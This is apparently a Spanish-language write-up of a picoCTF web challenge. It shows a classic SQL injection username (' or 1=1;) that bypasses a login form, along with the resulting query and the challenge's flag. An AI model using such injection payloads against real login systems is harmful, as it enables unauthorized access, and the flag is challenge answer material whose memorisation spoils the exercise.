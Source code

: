 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
- Cuando intentamos ingresar nos muestra tanto los datos de nuestro registro como la sentencia SQL que utiliza.
- Modificamos el registro para que nos logre ingresar y así nos muestra la bandera.

```shell
username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
```

## Notas adicionales


## Referencias